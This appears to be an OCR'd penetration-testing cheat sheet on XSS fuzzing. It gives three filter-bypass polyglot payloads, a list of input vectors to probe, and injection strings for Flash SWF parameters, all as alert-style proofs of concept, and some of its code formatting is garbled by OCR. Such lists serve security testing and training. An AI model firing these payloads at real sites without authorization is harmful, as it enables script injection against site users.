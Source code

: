 # ￼￼￼Tactical Fuzzing - XSS

## XSS

Core Idea: Does the page functionality display something to the users? For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

### \*Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

### Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

````
 
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 

￼￼```

### Multi-context polyglot payload (Mathias Karlsson)

````

" onclick=alert(1)//\<button ‘ onclick=alert(1)//> \*/ alert(1)//

```

###￼ Other XSS Observations

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼

```

```
%22})))}catch(e){alert(document.domain);}//
```

```
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
```

```
"a")(({type:"ready"}));}catch(e){alert(1)}//
```
